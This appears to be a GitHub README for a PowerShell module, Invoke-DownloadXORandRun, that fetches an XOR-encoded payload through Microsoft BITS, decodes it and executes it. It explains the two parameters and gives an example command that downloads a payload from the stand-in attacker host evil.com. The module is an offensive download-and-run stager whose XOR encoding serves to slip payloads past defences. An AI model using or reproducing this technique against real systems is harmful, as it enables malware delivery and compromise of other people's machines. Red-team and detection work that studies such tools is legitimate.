 # Invoke-DownloadXORandRun
This module downloads an XOR encoded payload via Microsoft BITS, decodes and runs it.

## Quick Start Guide
There are currently two parameters: 


**pURL** 
The remote path of the single-byte encoded file

**XOREncodeKey**
The value of the XOR Encoding

### Example:
```PowerShell
Invoke-DownloadXORandRun -pURL http://evil.com/6aenc.out -XorEncodeKey 6A
```

